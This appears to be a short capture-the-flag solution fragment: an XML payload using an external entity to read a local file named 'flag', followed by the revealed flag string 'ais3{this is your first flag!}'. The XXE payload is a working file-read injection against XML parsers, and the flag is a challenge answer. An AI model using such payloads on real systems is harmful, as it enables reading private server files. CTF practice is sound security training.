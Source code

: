 ```html
<!DOCTYPE root [
<!ENTITY bar "World"> <!ENTITY file SYSTEM "file:///flag">]>
<root>
<msg>Hello &file;</msg>

</root>
```

ais3{this is your first flag!}